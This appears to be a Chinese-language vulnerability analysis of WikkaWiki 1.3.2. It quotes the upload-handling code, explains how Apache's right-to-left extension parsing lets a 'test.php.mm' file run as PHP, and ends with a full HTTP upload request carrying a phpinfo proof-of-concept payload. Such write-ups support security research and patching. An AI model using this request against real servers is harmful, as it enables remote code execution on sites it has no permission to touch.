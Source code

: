 # WikkaWiki 1.3.2 Spam Logging PHP Injection
---
先来看下位于 /actions/files/files.php 的这段代码

```
266. elseif (preg_match('/.+\.('.$allowed_extensions.')$/i', $_FILES['file']['name']))
267. {
268. 	$strippedname = str_replace('\'', '', $_FILES['file']['name']);
269. 	$strippedname = rawurlencode($strippedname);
270. 	$strippedname = stripslashes($strippedname);
271. 	$destfile = $upload_path.DIRECTORY_SEPARATOR.$strippedname;
272. }
273. if (!file_exists($destfile))
274. {
275. 	if (move_uploaded_file($_FILES['file']['tmp_name'], $destfile))
276. 	{
277. 		$notification_msg = T_("File was successfully uploaded.");
278. 	}
...
```

在"INTRANET_MODE"开启或者攻击者利用CVE-2011-4448漏洞成功实施会话劫持攻击，攻击者可以上传包含多个扩展名的文件。

代码第266行的$allowed_extensions定义如下：

```
gif|jpeg|jpg|jpe|png|doc|xls|csv|ppt|ppz|pps|pot|pdf|asc|txt|zip|gtar|g
z|bz2|tar|rar|vpp|mpp|vsd|mm|htm|htm
```

像mm、vpp等扩展名在Apache中的mime.types中是非常少见的。

在Apache 1.x、2.x中，apache对文件名的解析是从后往前解析的，直到遇到一个Apache认识的文件类型为止。

所以上传一个test.php.mm，对于Apache来说会从后一直历遍后缀到.php，然后认为是个php类型的文件。

现在来看攻击过程

假设test这个页面是包含了files.php的，构造以下请求

```
POST /wikka/test HTTP/1.1
Host: localhost
Cookie: 96522b217a86eca82f6d72ef88c4c7f4=upjhsdd5rtc0ib55gv36l0jdt3
Content-Length: 251
Content-Type: multipart/form-data; boundary=--------1503534127
Connection: keep-alive

----------1503534127
Content-Disposition: form-data; name="file"; filename="test.php.mm"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
----------1503534127
Content-Disposition: form-data; name="upload"

Upload
----------1503534127--
```